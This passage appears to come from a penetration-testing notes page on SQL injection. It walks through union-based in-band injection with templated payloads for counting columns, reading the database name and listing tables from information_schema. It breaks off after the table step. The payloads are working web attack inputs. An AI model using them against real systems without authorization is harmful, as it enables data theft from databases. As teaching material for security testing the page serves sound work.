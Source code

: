 There are various forms of SQL injection attacks, each targeting different aspects of how SQL queries interact with the database.

## <mark style="color:orange;">In-Band</mark>&#x20;

Refers to the same method of communication being used to exploit the vulnerability, and also to receive the results.

### <mark style="color:red;">Union-Based</mark>

Use the SQL `UNION` operator to return additional results to the page, allowing the extraction of large amounts of data.

{% tabs %}
{% tab title="Case 1" %}
* Determining the number of columns

{% code overflow="wrap" lineNumbers="true" %}
```sql
$url/query?$column=$value UNION SELECT 1
$url/query?$column=$value UNION SELECT 1,2   #Try with a extra value
$url/query?$column=$value UNION SELECT 1,2,3 #Try Until there's no message error
#This won't show a message error when the number of columns coincides  
```
{% endcode %}

***

* Change query value

<pre class="language-sql" data-overflow="wrap" data-line-numbers><code class="lang-sql"><strong>$url/query?$column=$changedvalue UNION SELECT $found
</strong><strong>#Change until no results are shown to determine the value
</strong></code></pre>

{% hint style="info" %}
`$found` is the union value that has been caught in the previous step
{% endhint %}

***

* Check the database name

{% code overflow="wrap" lineNumbers="true" %}
```sql
$url/query?$column=$changedvalue UNION $found,database() #Try to get database
#This will return the name of the DB we are searching
```
{% endcode %}

***

* Check the information schema for the DB and table information

{% code overflow="wrap" lineNumbers="true" %}
```sql
$url/query?$column=$changedvalue UNION $found,group_concat(table_name) FROM information_schema.tables WHERE table_schema = '$dbfound'
#This will return a string with all tables of the database
```
{% endcode %}
